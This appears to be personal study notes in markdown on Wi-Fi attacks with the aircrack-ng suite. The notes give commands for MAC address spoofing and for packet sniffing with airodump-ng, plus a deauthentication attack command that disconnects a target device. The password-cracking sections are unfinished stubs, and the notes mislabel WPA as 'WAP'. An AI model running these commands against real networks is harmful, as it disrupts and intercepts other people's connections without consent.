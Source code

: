 # Network Hacking Main Page

- [Changing MAC Address](#mac)
- [WIFI Sniffing](#snif)
- [Deauth Attack](#deauth)
- [WIFI Password Craking](#wifipasscrack)
  - [WEP](#wep)
  - [WAP](#wap)
  - [WAP2](#wap2)

## Show available INTERFACE info
```bash
ifconfig
iwconfig
```

<a name="mac"/>

## Changing MAC adresse

**desc** : *Change MAC adresse*

MAC = Media Access Control

```bash
ifconfig <INTERFACE> down
ifconfig <INTERFACE> hw ether <MAC_ADDRESS> # hw for hardware
ifconfig <INTERFACE> up
```

<a name="snif"/>

## WIFI Sniffing

`aerodump-ng` is a packet sniffer
 - Use to capture packets within range
 - Display detailed info about networks
 - part of `aircrak-ng` suit

usage : `airodump-ng <INTERFACE>`

1. Must change wifi mode
2. Run `airodump-ng`

options :
- `--bssid <MAC_ADDRESS>` : Select MAC adresse to sniff
  - example
    - ```bash
      airodump-ng --bssid 00:11:22:33:44:55 --channel 2 --write save mon0`
      ```
- `--write <FILE_NAME>` : Save the sniffing to a file
  - Use [Wireshark]() to read the `.cap` file
- `--channel <CHANNEL_ID>`: Select channel 
- `--band` : Select frequency
  - "a" : use 5Gz only
  - "bg" : use 2.4Gz only
  - "n" : use both
  - "ac" : use lower than 6Gz
  -  example
     - ```bash
        airodump-ng --band abg mon0
        ```

Simple sniffing 2.4Gz
```bash
airodump-ng <INTERFACE>
```

<a name="deauth"/>

## Deauth Attack with `aireplay-ng`

usage : `aireplay-ng --deauth <#DEAUTH_PACKETS> -a <NETWORK_MAC> -c <TARGET_MAC> <INTERFACE>`

1. Run `aerodump-ng`
2. Run `aireplay-ng`

example : 
```bash
aireplay-ng --deauth 100000 -a 11:22:33:44:55:66 -c 00:11:22:33:44:55 mon0
```

<a name="wifipasscrack"/>

## WIFI password cracking

<a name="wep"/>

### WEP

TODO

<a name="wap"/>

### WAP

TODO

<a name="wap2"/>

### WAP2

TODO
